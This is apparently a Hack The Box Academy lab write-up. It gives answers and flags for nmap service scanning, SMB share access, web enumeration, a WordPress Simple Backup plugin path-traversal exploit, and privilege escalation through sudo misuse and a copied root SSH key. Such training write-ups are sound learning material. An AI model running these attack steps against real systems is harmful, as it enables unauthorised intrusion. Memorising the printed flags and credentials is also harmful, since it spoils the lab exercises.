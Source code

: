 

## [Service scanning](https://academy.hackthebox.com/module/77/section/726)

**Perform an Nmap scan of the target. What does Nmap display as the version of the service running on port 8080?**

```
sudo nmap -sC -sV -p8080 $ip 
```

**Results**: Apache Tomcat



**Perform an Nmap scan of the target and identify the non-default port that the telnet service is running on.**

```
sudo nmap -sC -sV $ip
```

**Results**: 2323


**List the SMB shares available on the target host. Connect to the available share as the bob user. Once connected, access the folder called 'flag' and submit the contents of the flag.txt file.**

```
smbclient  /\/\10.129.125.178/\users -U bob
# password: Welcome1. Included in the path explanation

smb>dir
smb>cd flag
smb>get flag.txt
smb>quit
cat flag.txt
```

**Results**: dceece590f3284c3866305eb2473d099


### [Web Enumeration](https://academy.hackthebox.com/module/77/section/728)

**Try running some of the web enumeration techniques you learned in this section on the server above, and use the info you get to get the flag.**

```
dirb http://94.237.55.246:55655/    
# From enumeration you can get to dirb http://94.237.55.246:55655/robots.txt
```

Go to http://94.237.55.246:55655/robots.txt and you will notice http://94.237.55.246:55655/admin-login-page.php

Visit it and, hardcoded in the site you will see:

```
                <!-- TODO: remove test credentials admin:password123 -->

```

Login into the app.

**Results**: HTB{w3b_3num3r4710n_r3v34l5_53cr375}There are many retired boxes on the Hack The Box platform that are great for practicing Metasploit. Some of these include, but not limited to:


### [Public Exploits](https://academy.hackthebox.com/module/77/section/843)



Access to the web app at http://ip:36883

The title of the wordpress post is "Simple Backup Plugin 2.7.10", which is a well-known vulnerable plugin. 

```
searchsploit Simple Backup Plugin 2.7.10
```


```
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Simple Backup Plugin Python Exploit 2.7.10 - Path Traversa | php/webapps/51937.txt
----------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```


```
sudo cp /usr/share/exploitdb/exploits/php/webapps/51937.txt .
mv 51937.txt 51937.py
chmod +x 51937.py
python ./51937.py http://83.136.255.162:36883/ "/flag.txt" 4
#  target_url = sys.argv[1]
#  file_name = sys.argv[2]
#  depth = int(sys.argv[3])
```


**Results**: HTB{my_f1r57_h4ck}


### [Privilege Escalation](https://academy.hackthebox.com/module/77/section/844)

**SSH to $ip with user "user1" and password "password1". SSH into the server above with the provided credentials, and use the '-p xxxxxx' to specify the port shown above. Once you login, try to find a way to move to 'user2', to get the flag in '/home/user2/flag.txt'.**

```
ssh user1@$ip -p 31459
# password1

sudo -l
# User user1 may run the following commands on
#        ng-644144-gettingstartedprivesc-udbk3-5969ffb656-cp248:
#    (user2 : user2) NOPASSWD: /bin/bash

# One way: 
echo #!/bin/bash > lala.sh
echo cat /home/user2/flag.txt >> lala.sh
chmod +x lala.sh
sudo -u user2  /bin/bash lala.sh

# Another
sudo -u user2 /bin/bash -i
```


**Results**:  HTB{l473r4l_m0v3m3n7_70_4n07h3r_u53r}


**Once you gain access to 'user2', try to find a way to escalate your privileges to root, to get the flag in '/root/flag.txt'.**

Once you are user2, go to /root:

```
cd /root
ls -la
```


```
drwxr-x--- 1 root user2 4096 Feb 12  2021 .
drwxr-xr-x 1 root root  4096 Jun  3 19:21 ..
-rwxr-x--- 1 root user2    5 Aug 19  2020 .bash_history
-rwxr-x--- 1 root user2 3106 Dec  5  2019 .bashrc
-rwxr-x--- 1 root user2  161 Dec  5  2019 .profile
drwxr-x--- 1 root user2 4096 Feb 12  2021 .ssh
-rwxr-x--- 1 root user2 1309 Aug 19  2020 .viminfo
-rw------- 1 root root    33 Feb 12  2021 flag.txt

```

So we have read access in .ssh folder. We can access and copy the private key 

```
cd .ssh
cat id_rsa
```

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
....
QfPM8OxSjcVJCpAAAAEXJvb3RANzZkOTFmZTVjMjcwAQ==
-----END OPENSSH PRIVATE KEY-----
```

In our attacker machine we save that id_rsa key in our folder

```
echo "the key" > id_rsa
```

And now we can login as root

```
ssh root@$ip -p 31459 -i id_rsa
```

And cat the flag:

```
cat /root/flag.txt 
```



**Results**:  HTB{pr1v1l363_35c4l4710n_2_r007}
